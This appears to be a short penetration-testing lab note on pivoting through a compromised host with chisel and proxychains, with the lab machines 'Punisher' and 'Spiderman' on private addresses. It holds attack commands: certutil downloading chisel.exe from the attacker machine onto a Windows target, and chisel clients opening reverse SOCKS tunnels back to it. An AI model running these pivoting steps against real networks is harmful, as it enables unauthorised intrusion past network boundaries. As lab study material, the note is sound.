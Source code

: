 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

https://github.com/jpillora/chisel/releases

```bash - kali
sudo mousepad /etc/proxychains4.conf
```

```bash - kali
socks5 127.0.0.1 1080
```

```bash - kali
chmod +x chisel
```

Kali:
```bash - kali
sudo ./chisel server -p 8000 --reverse 
```

Windows target:
```batch - windows
certutil -urlcache -split -f http://$KALI/chisel.exe
```

```batch - windows
chisel.exe client $KALI:8000 R:socks
```  

Linux target:
```bash - kali
chmod +x chisel
```

```bash - target
./chisel client $KALI:8000 R:socks
```

If http is available on the target, set up foxyproxy and visit:
[[1._Proxychains and FoxyProxy]]


Also, perform an nmap port scan:



